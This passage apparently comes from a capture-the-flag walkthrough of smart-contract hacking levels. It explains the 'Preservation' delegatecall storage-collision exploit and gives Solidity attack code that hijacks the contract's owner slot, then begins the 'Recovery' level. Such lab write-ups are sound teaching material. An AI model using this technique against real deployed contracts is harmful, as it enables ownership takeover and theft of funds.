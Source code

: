 And `setTimeSignature` is `bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));`

What it happens then is, that we invoke `setFirstTime`, as `timeZone1Library` is an instance of `LibraryContract`, what it will do is modify the first variable, or slot 0.

To solve this level, when we invoke `setFirstTime`, we will give it an instance of a contract we craft, such that it will call `setTime` and modify the _third_ slot, as opposed to the _first_ one. This is where the `owner` variable is in the original contract.

Our attacking contract can be like this

```solidity
contract PreservationAttack {
  bytes32 internal slot0;
  bytes32 internal slot1;
  bytes32 internal owner; // slot3
  address internal challengeAddress; // needed by us

  constructor(address _challengeAddress) {
    challengeAddress = _challengeAddress;
  }

  function setTime(uint256 _input) public {
    owner = bytes32(_input);
  }
}
```

Then the actual attack is

```solidity
// switch timeZone1Library with our contract
data = uint256(uint160(address(attackContract)));

(success,) = challengeAddress.call(abi.encodeWithSignature("setFirstTime(uint256)", data));
success;

// invoke again, this time we'll go through our PreservationAttack contract
data = uint256(uint160(address(address(this))));
(success,) = challengeAddress.call(abi.encodeWithSignature("setFirstTime(uint256)", data));
success;
```

### References

* https://docs.soliditylang.org/en/v0.8.19/introduction-to-smart-contracts.html#delegatecall-and-libraries
* https://solidity-by-example.org/delegatecall/

## 17 Recovery

To beat this level, we need to comply with

```solidity
address(lostAddress[_instance]).balance == 0;
```
